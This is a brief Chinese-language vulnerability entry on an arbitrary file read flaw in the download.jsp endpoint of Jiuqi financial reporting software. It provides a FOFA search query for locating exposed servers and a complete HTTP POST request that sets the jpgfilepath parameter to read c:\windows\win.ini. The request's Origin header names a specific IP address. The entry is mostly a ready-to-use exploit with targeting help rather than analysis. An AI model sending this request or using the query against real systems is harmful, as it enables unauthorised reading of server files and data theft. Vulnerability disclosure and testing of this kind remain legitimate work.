

# 久其财务报表 download.jsp 任意文件读取漏洞

## 漏洞描述

久其财务报表 download.jsp 存在任意文件读取漏洞，攻击者通过漏洞可以获取服务器上的信息

## 漏洞影响

```
久其财务报表
```

## FOFA

```
body="/netrep/"
```

## 漏洞复现

登录路径如下


发送请求包


```plain
POST /netrep/ebook/browse/download.jsp HTTP/1.1
Host: 
Content-Length: 55
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://114.251.113.53:7002
Content-Type: application/x-www-form-urlencoded

jpgfilepath=c:\windows\win.ini
```


